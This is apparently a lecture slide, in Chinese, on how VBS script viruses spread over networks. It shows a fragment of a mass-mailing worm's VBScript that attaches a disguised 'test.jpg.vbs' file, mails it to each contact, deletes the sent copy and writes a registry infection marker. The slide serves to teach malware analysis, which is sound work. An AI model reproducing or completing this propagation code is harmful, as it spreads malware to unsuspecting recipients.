

# VBS脚本病毒通过网络传播的几种方式及代码分析（续）

           Set attachMents=item.Attachments                   '定义邮件附件

           attachMents.Add fileSysObj.GetSpecialFolder(0)&"\test.jpg.vbs“

           item.DeleteAfterSubmit = True                '信件提交后自动删除

               If item.To <> "" Then
                  item.Send                   '发送邮件
                  shellObj.regwrite "HKCU\software\Mailtest\mailed", "1"
                                            '病毒标记，以免重复感染
               End If
            Next
         End If
      Next
   End if
End Function